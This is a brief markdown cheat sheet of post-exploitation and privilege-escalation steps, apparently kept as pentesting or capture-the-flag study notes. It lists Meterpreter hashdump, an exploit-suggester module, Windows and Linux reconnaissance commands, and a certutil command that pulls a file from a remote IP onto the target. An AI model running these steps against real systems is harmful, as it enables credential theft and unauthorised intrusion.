 ## Meterpreter
### getuid
### sysinfo
### hashdump
### Enumerators
```
run post/multi/recon/local_exploit_suggester
```

## Cmd
### route print
### netstat -ano
### arp -a
### wget
```
certutil -urlcache -f http://123.123.123.123/file c:/user/administrator/file
```

## Bash
```
cat .bash_history
history
sudo -l
```

## Others
### LinEnum
### linuxprivchecker.py
### windows exploit suggester
### https://www.fuzzysecurity.com/tutorials/16.html
